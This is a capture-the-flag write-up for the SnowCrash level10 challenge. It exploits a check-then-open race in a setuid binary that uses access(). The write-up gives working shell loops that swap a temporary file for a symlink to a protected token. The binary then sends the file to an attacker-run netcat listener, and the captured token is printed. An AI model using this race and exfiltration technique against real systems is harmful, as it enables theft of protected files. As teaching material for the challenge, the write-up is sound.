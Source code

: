 The `level10` executable sends a file to a server on port 6969, but only if the user executing it have permissions to open the file, as you can see with the `nm` command:

``` shell
level10@SnowCrash:~$ nm level10 

    ...

08048620 T _start
         U access@@GLIBC_2.0
0804a064 b completed.6159

    ...
    
```

It uses `access` system call probably to check the permisions before send it up. I you refer the `access` man page you can see the following warning:

``` 
       Warning: Using these calls to check if a user is authorized to,
       for example, open a file before actually doing so using open(2)
       creates a security hole, because the user might exploit the short
       time interval between checking and opening the file to manipulate
       it.  For this reason, the use of this system call should be
       avoided.  (In the example just described, a safer alternative
       would be to temporarily switch the process's effective user ID to
       the real ID and then call open(2).)
```

We can use this exploit:

 - First: In one shell instance we can create a infinite loop that will create a file in `/tmp` so we have access to it, and substitute it with a symbolic link to our token file over and over again:

``` shell
while true; do 
    rm -f /tmp/dummy;
    ln -s /home/user/level10/token /tmp/dummy;
    rm -f /tmp/dummy;
    echo "dummy" > /tmp/dummy;
done
```

-Second: In another shell instance just create an infinite loop of the `level10` executable calling this file to our host:

``` shell
while true; do
    ./level10 /tmp/dummy /path/to/your/host;
done
```

-Third: Lastly in our host machine for example (`192.168.1.18` in our case) put a server listening and discard all the "dummy" content:

``` shell
➜  Resources git:(master) ✗ nc -lk -p 6969 | grep -v 'dummy\|.*( )*.'
woupa2yuojeeaaed06riuj63c
woupa2yuojeeaaed06riuj63c
woupa2yuojeeaaed06riuj63c
woupa2yuojeeaaed06riuj63c
woupa2yuojeeaaed06riuj63c
woupa2yuojeeaaed06riuj63c
```

And here you have the token.
